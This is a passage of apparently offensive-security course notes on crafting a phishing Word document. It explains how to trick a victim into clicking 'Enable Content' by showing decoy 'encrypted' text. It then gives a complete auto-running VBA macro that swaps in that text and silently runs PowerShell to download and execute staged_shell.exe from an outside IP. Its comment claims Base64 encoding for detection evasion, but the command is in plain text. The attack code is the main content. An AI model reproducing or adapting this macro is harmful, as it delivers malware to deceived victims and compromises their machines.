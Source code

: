 
# 3.3 Keeping Up Appearances

![[Pasted image 20240530094355.png]]

**Purpose**: Create a reason to convince the victim to click "Enable Content".

Creating an "encrypted" text A, when the victim clicks "Enable Content", the "decrypted" text B will appear. Take advantage of *Save Selection to AutoText Gallery* in AutoText.

Step 1. Create both paragraphs A and B
Step 2. Highlight the "decrypted" text B. Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
Step 3. In the "Create New Building Block" dialog box, name it PhishingPretexting.
Step 4. Remove the "decrypted" text B.
Step 5. The complete VBS code:

```vb
Sub Document_Open()
	SubstitutePage
End Sub

Sub AutoOpen()
	SubstitutePage
End Sub

Sub SubstitutePage()
	 ActiveDocument.Content.Select
	 Selection.Delete
	 ActiveDocument.AttachedTemplate.AutoTextEntries("PhishingPretexting").Insert Where:=Selection.Range, RichText:=True
	 PhishingPretexting
End Sub

Sub PhishingPretexting()

    ' Base64 encoded PowerShell command to avoid plain text command detection
    Dim psScript As String
    psScript = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile (New-Object System.Net.WebClient).DownloadFile('http://10.10.108.34/staged_shell.exe','C:\Windows\Temp\staged_shell.exe');Start-Process 'C:\Windows\Temp\staged_shell.exe'"
    
    ' Execute the PowerShell script hidden
    CreateObject("Wscript.Shell").Run psScript, 0

End Sub
```

![[Pasted image 20240530102309.png]]

# 3.4 Executing Shellcode in Word Memory
